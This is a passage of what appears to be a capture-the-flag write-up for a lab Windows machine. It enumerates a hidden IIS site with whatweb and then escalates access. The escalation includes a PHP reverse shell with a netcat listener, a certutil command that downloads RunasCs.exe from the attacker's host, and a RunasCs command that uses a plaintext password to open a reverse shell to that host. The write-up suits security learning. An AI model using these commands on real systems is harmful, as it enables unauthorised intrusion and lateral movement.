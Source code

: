 And there is the hidden website!

Lets get more information about it with whatweb:

```shell
whatweb http://127.0.0.1:65432
```

```shell
http://127.0.0.1:65432 [200 OK] Bootstrap, Country[RESERVED][ZZ], Frame, Google-API[ajax/libs/jquery/1.10.2/jquery.min.js], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[127.0.0.1], JQuery[1.10.2,1.11.2], Microsoft-IIS[10.0], Modernizr[2.8.3-respond-1.4.2.min], Script[text/javascript], Title[Flight - Travel and Tour], X-Powered-By[ASP.NET], X-UA-Compatible[IE=edge], YouTube
```

This is a Microsoft IIS website. The directories of these kind of websites are located at C:\inetpub. We cant access the C:\inetpub directory with svc_apache and S.Moon, but C.Bum would probably give us access.

### Using RunasCs.exe to get access as C.Bum
Lets create another shell.php to open another shell session using PHP Ivan Sincek reverse shell, our first shell is forwarding with chisel.exe:

```shell
# Copy the shell.php
cp shell.php shell2.php

# Edit port 8443 to 8080
sudo gedit shell2.php

# Upload into Web SMB share with impacket-smbclient

# Start nc listener
nc -lvnp 8080

# Access the following URL to trigger the reverse shell
http://10.129.228.120/shell2.php
```

After getting a second shell, we can try to get access as C.Bum.

First upload RunasCs.exe:

```shell
cd C:\Users\svc_apache\Desktop
certutil.exe -urlcache -split -f http://10.10.14.206/RunasCs.exe
```

After moving both files, start another nc listener:

```shell
nc -lvnp 9001
```

RunasCs.exe has a very nice parameter -r, which will grand us a reverse shell.

Using the following command, we will get a response on our nc listener:

```shell
powershell
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.206:9001 cmd
```
